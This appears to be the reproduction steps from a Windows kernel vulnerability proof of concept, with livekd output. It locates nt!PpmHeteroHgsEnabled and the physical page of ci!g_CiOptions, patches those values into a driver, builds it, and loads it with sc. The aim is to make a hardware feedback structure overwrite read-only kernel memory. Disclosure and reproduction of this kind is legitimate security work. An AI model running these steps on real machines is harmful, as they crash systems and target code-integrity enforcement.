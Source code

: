NB: the target system will crash within a few minutes after following this instruction.

1. Check the linear address of `nt!PpmHeteroHgsEnabled` with `livekd`
   1. Start command prompt with the administrator privilege
   2. Run those commands:
      ```
      > livekd
      0: kd> x nt!PpmHeteroHgsEnabled
      fffff806`1a31da62 nt!PpmHeteroHgsEnabled = <no type information>
      ```
   3. Take note of the linear address, ie, `fffff8061a31da62` in this example
2. Decide the physical address to populate the HFI structure. This can be any address that is (1) normally not writable and (2) we can confirm that the HFI structure was written. We use `ci!g_CiOptions`
   1. On the same livekd session run the following command:
      ```
      0: kd> !pte ci!g_CiOptions
                                                VA fffff80618ac4004
      PXE at FFFFFCFE7F3F9F80    PPE at FFFFFCFE7F3F00C0    PDE at FFFFFCFE7E018628    PTE at FFFFFCFC030C5620
      contains 000000048F60B063  contains 000000048F60C063  contains 000000048F61E063  contains 890000011CECB121
      pfn 48f60b    ---DA--KWEV  pfn 48f60c    ---DA--KWEV  pfn 48f61e    ---DA--KWEV  pfn 11cecb    -G--A--KR-V
      ```
   2. Take note of the PFN, ie, `11cecb` in this example
   3. Double check that the current memory contents make sense
      ```
      0: kd> dd ci!g_CiOptions
      fffff806`18ac4004  0101c00e 00000000 00008004 00000860
      fffff806`18ac4014  00000000 00000000 00000000 00000000
      fffff806`18ac4024  00000000 00000000 00000000 00000000
      fffff806`18ac4034  00000000 00000000 00000000 00000000
      fffff806`18ac4044  00000000 00000000 00000000 00000000
      fffff806`18ac4054  00000000 00000000 00000000 00000000
      fffff806`18ac4064  00000000 00000000 00000000 00000000
      fffff806`18ac4074  00000000 00000000 00000000 00000000
      ```
3. Update and compile the PoC file. This step can be done on other machine
   1. Extract the msr.zip, and open the msr.sln on Visual Studio 2022
   2. Update `UINT8* ntPpmHeteroHgsEnabled = (UINT8*)0xfffff80738d1da62;` with what we noted at the step 1.3
   3. Update `constexpr unsigned long long pfn = 0x119932;` with what we noted at the step 2.2
   4. Build the solution for x64 / Debug
   5. If needed, copy over the compiled msr.sys into the target system
4. Load the PoC
   1. Optionally, start DbgView [3] with the administrator privileges and enable "Capture Kernel"
   2. Run the following command on the command prompt with the administrators privileges
      ```
      > sc create msr type= kernel binPath= <full_path_to_msr.sys>
      [SC] CreateService SUCCESS
      ```
   3. Start the PoC
      ```
      > sc start msr
      [SC] StartService FAILED 995:
